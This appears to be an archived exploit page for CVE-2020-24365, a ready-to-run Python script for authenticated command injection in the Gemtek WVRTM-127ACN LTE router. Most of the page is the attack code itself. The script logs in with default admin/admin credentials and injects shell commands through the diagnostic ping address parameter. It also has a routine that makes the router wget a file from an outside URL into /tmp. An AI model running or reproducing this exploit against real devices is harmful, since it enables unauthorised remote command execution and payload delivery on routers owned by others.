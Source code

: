 <languages />

影响版本
--------

    Version: 01.01.02.127, 01.01.02.141

EXP
---

    # Exploit Title: Gemtek WVRTM-127ACN 01.01.02.141 - Authenticated Arbitrary Command Injection
    # Date: 13/09/2020
    # Exploit Author: Gabriele Zuddas
    # Version: 01.01.02.127, 01.01.02.141
    # CVE : CVE-2020-24365


    Service Provider :  Linkem
    Product Name :  LTE CPE
    Model ID :  WVRTM-127ACN
    Serial ID : GMK170418011089
    IMEI :  XXXXXXXXXXXXX
    ICCID :     XXXXXXXXXXXXXXXXXX
    Firmware Version :  01.01.02.141
    Firmware Creation Date :    May 15 13:04:30 CST 2019
    Bootrom Version :   U-Boot 1.1.3
    Bootrom Creation Date :     Oct 23 2015 - 16:03:05
    LTE Support Band :  42,43


    Injecting happens here:

    sh -c (ping -4 -c 1 -s 4 -W 1 "INJECTION" > /tmp/mon_diag.log 2>&1; cmscfg -s -n mon_diag_status -v 0)&


    Exploit has been tested on older verions too:
        Firmware Version:   01.01.02.127
        Firmware Creation Date :    May 23 15:34:10 CST 2018

    """

    import requests, time, argparse, re, sys

    class Exploit():

        CVE = "CVE-2020-24365"

        def __init__(self, args):
            self.args = args
            self.session = requests.Session()

        def login(self):
            s = self.session
            r = s.post(f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=login.asp&action=login", data={"user_name":self.args.username,"user_passwd":self.args.password})
            if "sid" not in s.cookies:
                print("[!] Login failed.")
                exit(1)
            sid = s.cookies["sid"]
            s.headers = {"sid": sid}
            print(f"[*] Login successful! (sid={sid})")

        def now(self):
            return int(time.time() * 1000)

        def exploit(self, command):
            self.login()

            with self.session as s:
                payload = f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=ajax.asp&action=save_monitor_diagnostic&mon_diag_type=0&mon_diag_addr=$({command};)&mon_ping_num=1&mon_ping_size=4&mon_ping_timeout=1&mon_tracert_hops=&mon_diag_protocol_type=4&time={self.now()}&_={self.now()}"

                r = s.get(payload)
                r = s.get(f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=ajax.asp&action=diagnostic_tools_start&notrun=1&time={self.now()}&_={self.now()}")
                content = str(r.content, "utf8")

                #Attempt to stop the command as some commands tend to get stuck (if commands stop working check on the web interface)
                r = s.get(payload)
                r = s.get(f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=ajax.asp&action=diagnostic_tools_start&notrun=1&time={self.now()}&_={self.now()}")
                content = str(r.content, "utf8")

                #TODO: eventually parse content with regex to clean out the output
                c = re.findall(r"(?<=ping: bad address \')(.*)(?=\')", content)
                print(content)
                print(c[0])

                if len(c) > 0:
                    return c[0]
                else:
                    return False

        def download_file(self, url):
            filename = url.rsplit('/', 1)[-1]

            if self.args.file is not None:
                print(f"[*] Attempting download of file '{filename}' from {url} ...")

                if self.exploit(f"wget {url} -O /tmp/{filename}"):
                    print(f"[*] File saved on {self.args.target}'s /tmp/{filename}.")
                    print(self.exploit(f"du -h /tmp/{filename}"))
                    return True
                else:
                    print(f"[!] Failed to download {filename} from {url}")
                    return False

        def run(self):
            if self.args.command is not None:
                print(self.exploit(self.args.command))
                exit()
            if self.args.file is not None:
                self.download_file(self.args.file)
                exit()

    if __name__ == "__main__":
        # Create the parser and add arguments
        parser = argparse.ArgumentParser()
        parser.add_argument("-t", "--target", dest="target", default="192.168.1.1", help="Vulnerable target")
        parser.add_argument("-u", "--username", dest="username", default="admin", help="Valid username to use")
        parser.add_argument("-p", "--password", dest="password", default="admin", help="Valid password to use")
        parser.add_argument("-c", "--command", dest="command", default=None, help="Command to execute")

        parser.add_argument("-D", "--download-file", dest="file", default=None, help="Download file on target's /tmp directory")

        args = parser.parse_args()

        # Run exploit
        X = Exploit(args)
        if len(sys.argv) > 1:
            print(f"[*] Exploiting {X.CVE} ...")
            X.run()
        else:
            parser.print_help(sys.stderr)
